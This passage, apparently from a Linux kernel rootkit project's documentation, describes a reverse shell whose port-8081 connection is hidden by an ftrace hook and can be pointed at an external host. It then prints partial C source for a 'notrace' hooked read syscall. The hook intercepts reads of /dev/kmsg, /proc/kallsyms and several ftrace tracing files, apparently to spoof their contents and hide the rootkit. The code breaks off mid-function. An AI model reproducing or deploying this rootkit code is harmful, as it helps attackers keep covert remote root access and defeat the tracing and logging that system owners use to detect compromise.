 * This is a simple reverse shell that listens for connections on `localhost`. The IP address can be easily changed in `kprobe/rev-shell.h` to connect to an external host.
* The reverse shell utilizes the **hidden network connection** on port 8081, which is stealthed by Rasta's ftrace hook, allowing for covert communication.

---

### Using `notrace` example to avoid `/sys/kernel/tracing/available_filter_functions` with our read hook

```c
/*
        Big Collab with MatheuZSecurity on this https://github.com/matheuZSecurity/Rootkit/Ring0/clear-taint-dmesg
*/

#ifndef READ_H
#define READ_H

#define B_F 4096  // Temporary buffer size for reading

static asmlinkage ssize_t (*og_read)(const struct pt_regs *regs); // Pointer to the original read function

static asmlinkage ssize_t hooked_read(const struct pt_regs *regs);

// Hooked function that intercepts the syscall read
static notrace asmlinkage ssize_t hooked_read(const struct pt_regs *regs) {
    int fd = regs->di; // First argument of read: fd
    char __user *user_buf = (char __user *)regs->si; // Second argument: output buffer for user
    char *kernel_buf;
    ssize_t bytes_read;
    struct file *file;

    static int spoof_next_read = 0; // Used to spoof one read

    // Check if the fd is from /dev/kmsg, /proc/kallsyms or /sys/kernel/tracing/touched_functions
    file = fget(fd); // Gets the file object corresponding to the fd
    if (file) {
	    
      /* Check if the file is:
	       	- /dev/kmsg 
	        - /proc/kallsyms
      	 	- /sys/kernel/tracing/enabled_functions
      	 	- /sys/kernel/tracing/touched_functions
      	 	- /sys/kernel/tracing/tracing_on
      	 	- /proc/sys/kernel/ftrace_enabled */
	
	
        if (strcmp(file->f_path.dentry->d_name.name, "kmsg") == 0 ||
            strcmp(file->f_path.dentry->d_name.name, "kallsyms") == 0 ||
            strcmp(file->f_path.dentry->d_name.name, "touched_functions") == 0 ||
	          strcmp(file->f_path.dentry->d_name.name, "ftrace_enabled") == 0 ||
	          strcmp(file->f_path.dentry->d_name.name, "tracing_on") == 0 ||
	          strcmp(file->f_path.dentry->d_name.name, "enabled_functions") == 0) {
            
            fput(file); // Frees the file object after verification

            // Allocates a temporary buffer in kernel space
            kernel_buf = kmalloc(B_F, GFP_KERNEL);
            if (!kernel_buf) {
                printk(KERN_ERR "Failed to allocate temporary buffer.\n");
                return -ENOMEM;
            }
```